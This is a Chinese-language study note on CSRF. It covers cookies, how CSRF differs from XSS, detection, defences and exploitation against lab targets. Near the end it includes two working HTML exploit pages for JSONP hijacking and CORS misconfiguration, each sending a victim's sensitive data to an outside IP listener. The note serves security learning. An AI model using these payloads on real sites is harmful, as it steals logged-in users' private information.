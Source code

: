 # CSRF(跨站请求伪造)

>目标操作系统没有对请求消息做验证，黑客可以伪造请求消息，诱导或欺骗用户执行非本意操作

## CSRF和XSS区别

### cookie特点

  cookie保存在浏览器，存储用户身份凭据信息

### http协议特点

  超文本传输协议，端口80，基于tcp/ip，无状态，每次请求响应相互独立

### cookie存储和使用流程

  关键函数，setcookie()。
  1、客户端发送带身份凭据的request请求消息到服务器
  2、服务器验证身份凭据正确则返回header中含set-cookie的键值对的response响应信息
  3、客户端浏览器接收到cookie后存储到header，后续访问服务器都会带有cookie信息
  4、服务器端以此为用户身份凭据信息

### XSS特性

- xss的cookie是从浏览器document.cookie获取的

- xss直接窃取目标登录凭据

- 浏览器有同源策略，无法跨域读取cookie

### CSRF特性

- csrf不会获取cookie，通过伪造请求，诱导用户点击,让用户发出带有用户cookie的恶意请求消息

## CSRF危害

- 盗号
- 改密码
- 改个人信息等

## CSRF产生条件

- 用户浏览器有cookie
- 用户没有登出的情况下访问攻击链接

## CSRF判断方法

- 请求参数(GET/POST)中是否有参数未知不可控，如果可知可控则存在，否则不存在

## CSRF漏洞防御

**添加一个不确定参数**

- 随机token
- 验证码或短信验证码
- 修改密码时要求用户输入原密码，因为原密码不可知

**限制同源**

- 验证referer

## CSRF漏洞利用

**GET型**

- 直接复制url，诱导用户点击

**POST型**

- 构造表单网页，诱导用户点击

**蠕虫病毒**

- CSRF和存储型XSS结合，每次XSS触发时同时触发CSRF

**同源策略**

- jsonp和cors是解决浏览器默认同源策略限制，进行不同网站之间数据传输的技术，正常使用没有安全漏洞

**靶场**

- [POCBox](https://github.com/0verSp4ce/PoCBox)
- [DoraBox](https://hub.docker.com/r/redteamwing/dorabox )

**jsonp**

- 漏洞判断方法

  - 修改callback参数值，观察是否发生变化
  - 观察响应消息中是否存在敏感信息，只要存在就是漏洞，可以跨域获取这些敏感信息

- 漏洞利用

  - pocbox生成链接
  - 诱导用户点击链接，将敏感信息发送到远程服务器
    - 开启钓鱼链接
    - 开启接收监听
    - 诱导用户点击链接，将敏感信息远程发送

  ```html
  <!DOCTYPE html>
  <html lang="en">
  <head>
  <meta charset="UTF-8">
  <title>JSONP EXP跨域测试</title>
  </head>
  <body>
  <script>
  function test(json){
  new Image().src="http://101.34.185.252:8001/" + JSON.stringify(json)//攻击机监听的url和端口
  //alert(JSON.stringify(json))
  }
  </script>
  <script src="http://127.0.0.1:8000/DoraBox/csrf/jsonp.php?callback=test"></script>//有漏洞的网站url
  </body>
  </html>
  ```

- 漏洞防御 

  - 参考CSRF防御
  - 数据脱敏

**cors**

- 漏洞判断方法

  - 修改请求消息中的origin
  - 返回数据包是否发生变化并且有敏感信息

- 漏洞利用

  - pocbox生成链接
  - 诱导用户点击链接，将敏感信息发送到远程服务器
    - 开启钓鱼链接
    - 开启接收监听
    - 诱导用户点击链接，将敏感信息远程发送

  ```html
  <!DOCTYPE html>
  <html>
  <head>
  	<title>CORS TEST</title>
  </head>
  <body>
  	<div id='output'></div>
  	<script type="text/javascript">
  			var req = new XMLHttpRequest(); 
  			req.onload = reqListener; 
                  //存在漏洞的url
  			req.open('get','http://127.0.0.1:8082/DoraBox/csrf/userinfo.php',true);
  			//req.setRequestHeader("Content-Type","application/x-www-form-urlencoded;"); 
  			req.withCredentials = true;
  			req.send();
  			function reqListener() {
                  //接收监听的url
                  new Image().src="http://101.34.185.252:8001/" + window.btoa(unescape(encodeURIComponent(JSON.stringify(req.responseText))))
  			};
  	</script>
  </body>
  </html>
  ```